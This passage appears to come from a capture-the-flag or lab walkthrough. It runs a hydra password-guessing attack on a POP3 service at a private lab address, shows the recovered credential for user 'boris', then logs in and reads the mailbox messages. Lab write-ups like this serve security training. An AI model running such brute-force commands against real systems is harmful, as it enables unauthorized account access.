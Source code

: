 Since I had no other information on any other service I just ran the dictionary attack with user name as `boris`.

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -t20 192.168.56.103 -s55007 -I pop3
```

![](images/eye/hydra.png)

`boris: secret1!`

With these credential I was able to login to the pop3 service.

![](images/eye/pop3.png)

I started to look for message there using `RETR <message-number>` Ex `RETR 1`, `RETR 2`

![](images/eye/messages.png)
